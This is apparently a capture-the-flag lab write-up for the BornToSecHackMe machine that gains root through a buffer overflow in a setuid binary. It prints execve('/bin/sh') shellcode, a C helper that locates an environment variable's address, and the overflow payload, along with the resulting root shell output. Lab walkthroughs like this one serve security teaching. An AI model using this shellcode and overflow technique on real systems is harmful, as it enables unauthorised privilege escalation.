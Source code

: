 [See detailed writeup here](../writeup1.md)

[See detailed writeup here 5](writeup5.md)

This time we will exploit `**exploit_me**` in the zaz user with shellcode.

```
export shellcode=$'\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0
\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'
```

When you search for "/bin/sh shellcode" on Google, this is one of the first results:

```
https://stackoverflow.com/questions/27171369/interpreting-a-shellcode
https://site.pi3.com.pl/exp/pi3.c
```

We copied the shellcode directly from there and put it into an environment variable.

We will use a simple C code to get the pointer address of this shellcode.

```
#include <stdio.h>
#include <stdlib.h>

int main(int ac, char **av)
{
        if (ac == 2)
        {
                char* ptr = getenv(av[1]);
                printf("%p\n", ptr);
        }
}
```

```
zaz@BornToSecHackMe:~$ gcc shellcode.c

zaz@BornToSecHackMe:~$ ./a.out shellcode
0xbffffef7
zaz@BornToSecHackMe:~$
```
Our second argument is the shellcode environment variable we added.

We just obtained the memory address and now we need to use it in little endian format.

```little endian = "\xf7\xfe\xff\xbf" ```


```
zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print "\x90" * 140 + "\xf7\xfe\xff\xbf"')
������������������������������������������������������������������������������������������������������������������������������������������������
# whoami
root
# id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
# exit

```

FINALLY WE ARE ROOT #8 ;D
